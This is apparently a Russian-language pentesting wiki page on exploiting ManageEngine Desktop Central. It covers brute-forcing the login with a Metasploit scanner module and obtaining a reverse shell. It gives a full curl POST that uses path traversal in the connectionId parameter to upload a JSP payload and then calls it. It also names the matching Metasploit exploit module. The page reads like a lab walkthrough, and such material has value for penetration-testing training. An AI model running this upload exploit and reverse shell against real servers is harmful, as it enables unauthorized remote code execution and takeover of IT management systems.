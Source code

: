 # Desktop Manage Engine Exploitation

Manage Engine - это комплексный пакет программ для управления ИТ, который предлагает решения для управления сетями, серверами, настольными компьютерами и приложениями.

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Manage Engine BruteForce

Для подбора учетных данных используйте модуль `auxiliary/scanner/http/manageengine_desktop_central_login` , где в качестве аргументов в целях ускорения подбора вы можете взять следующие словари:

юзернеймы (ссылка)

пароли (ссылка)

После подбора вы найдете 1 валидную комбинацию admin:admin и получите доступ к панели администратора

Manage Engine Reverse Shell

Вы можете получить обратную оболочку уязвимого хоста, сделав следующее:

Сгенерируйте полезную нагрузку используя утилиту msfvenom и укажите ip-адрес и порт машины, на которую хотите получить shell

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Далее, отправьте соответствующий POST-запрос за удаленную машину, в ходе которого будет создан .jsp файл с полезной нагрузкой в качестве содержимого

```
curl -v -X POST "http://172.20.10.3:8020/fileupload?connectionId=AAAAAAA\..\..\..\..\..\jspf\test.jsp&resourceId=B&action=rds_file_upload&computerName=sinn3r.php&customerId=47474747" --data @shell.txt --header "Content-Type:application/octet-stream" && http://172.20.10.3:8020/jspf/test.jsp
```

> Замените ip-адрес на адрес вашей машины

Затем обратитесь к созданному файлу с помощью утилиты curl, заранее подключив слушатель на выбранный вами порт

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

#### Metasploit Shell

Помимо метода “вручную” вы можете использовать Metasploit модуль `exploit/windows/http/manageengine_connectionid_write`

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>
